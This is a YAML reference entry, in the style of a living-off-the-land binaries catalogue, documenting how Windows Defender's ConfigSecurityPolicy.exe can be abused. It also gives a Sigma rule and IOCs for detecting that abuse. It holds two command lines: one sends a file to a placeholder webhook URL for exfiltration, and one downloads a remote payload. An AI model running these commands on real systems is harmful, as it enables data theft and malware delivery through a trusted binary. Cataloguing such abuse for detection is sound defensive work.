 ```yaml
---
Name: ConfigSecurityPolicy.exe
Description: Binary part of Windows Defender. Used to manage settings in Windows Defender. you can configure different pilot collections for each of the co-management workloads. Being able to use different pilot collections allows you to take a more granular approach when shifting workloads.
Author: Ialle Teixeira
Created: 2020-09-04
Commands:
  - Command: ConfigSecurityPolicy.exe C:\Windows\System32\calc.exe https://webhook.site/xxxxxxxxx?encodedfile
    Description: Upload file, credentials or data exfiltration in general
    Usecase: Upload file
    Category: Upload
    Privileges: User
    MitreID: T1567
    OperatingSystem: Windows 10
  - Command: ConfigSecurityPolicy.exe https://example.com/payload
    Description: It will download a remote payload and place it in the cache folder (for example - %LOCALAPPDATA%\Microsoft\Windows\INetCache\IE)
    Usecase: Downloads payload from remote server
    Category: Download
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows 10, Windows 11
Full_Path:
  - Path: C:\Program Files\Windows Defender\ConfigSecurityPolicy.exe
  - Path: C:\ProgramData\Microsoft\Windows Defender\Platform\4.18.2008.9-0\ConfigSecurityPolicy.exe
Code_Sample:
  - Code:
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/62d4fd26b05f4d81973e7c8e80d7c1a0c6a29d0e/rules/windows/process_creation/proc_creation_win_lolbin_configsecuritypolicy.yml
  - IOC: ConfigSecurityPolicy storing data into alternate data streams.
  - IOC: Preventing/Detecting ConfigSecurityPolicy with non-RFC1918 addresses by Network IPS/IDS.
  - IOC: Monitor process creation for non-SYSTEM and non-LOCAL SERVICE accounts launching ConfigSecurityPolicy.exe.
  - IOC: User Agent is "MSIE 7.0; Windows NT 10.0; Win64; x64; Trident/7.0; .NET4.0C; .NET4.0E; .NET CLR 2.0.50727; .NET CLR 3.0.30729; .NET CLR 3.5.30729)"
Resources:
  - Link: https://docs.microsoft.com/en-US/mem/configmgr/comanage/how-to-switch-workloads
  - Link: https://docs.microsoft.com/en-US/mem/configmgr/comanage/workloads
  - Link: https://docs.microsoft.com/en-US/mem/configmgr/comanage/how-to-monitor
  - Link: https://twitter.com/NtSetDefault/status/1302589153570365440?s=20
Acknowledgement:
  - Person: Ialle Teixeira
    Handle: '@NtSetDefault'
  - Person: Nir Chako (Pentera)
    Handle: '@C_h4ck_0'
---
```

